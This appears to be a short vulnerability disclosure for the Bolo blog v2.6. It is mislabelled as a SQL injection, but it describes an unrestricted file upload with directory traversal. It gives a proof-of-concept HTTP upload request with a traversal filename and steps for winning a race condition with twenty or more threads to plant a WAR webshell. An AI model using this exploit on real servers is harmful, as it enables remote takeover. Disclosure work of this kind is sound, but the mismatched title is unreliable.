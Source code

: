 # novel-plus SQL injection vulnerability

## Open source address：
https://github.com/adlered/bolo-solo

## version：
Bolo 菠萝博客 稳定版 v2.6

## code：
The code here can directly upload files without limiting the file type to be uploaded or the file type in the compressed package, and the file path is not processed correctly. Therefore, directory traversal, file upload, and conditional competition can be used to prevent getshell
![img](image.png)


## pocs
HTTP Request Packet:  
```
POST /bolo/import/markdown HTTP/1.1
Host: 192.168.211.1:8080
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 809
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypHuzSQwGehobNokU
Cookie: skin=bolo-nijigen; visited=%5B%22%2Fbolo%22%5D; solo=35b9c941bc81bd3d8500b24594fe3f4f93359aa77c3e09e3e0ca656633d077f79c14626191672324eb2507983b6df5365658b242772607cd3890f5f9aec1c667e2c3f4a107b1575b3dc5c31bf9e9d2744
Origin: http://192.168.211.1:8080
Referer: http://192.168.211.1:8080/bolo/admin-index.do
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest

------WebKitFormBoundarypHuzSQwGehobNokU
Content-Disposition: form-data; name="file"; filename="/../../{{x(user_top10)}}.war"
Content-Type: application/octet-stream

{{file(C:\Users\test\Desktop\test.war)}}
------WebKitFormBoundarypHuzSQwGehobNokU--

```

After logging in, replace the Cookie field in the HTTP packet, then capture the '/bolo/import/markdown' path packet, and replace the '{{x (user_top10)}}' field with any ten file names. Package the webshell file into a large root directory of the war package, replace {{file (C: Users test Desktop test. war)} with the content of the war package, and send the above HTTP data package with high concurrency through multiple threads (at least twenty threads). Based on the generated ten file names, concatenate directories and webshell files, and batch request to try to find if the webshell was successfully uploaded.

**ps:This method has some uncertainty due to conditional competition and requires multiple attempts**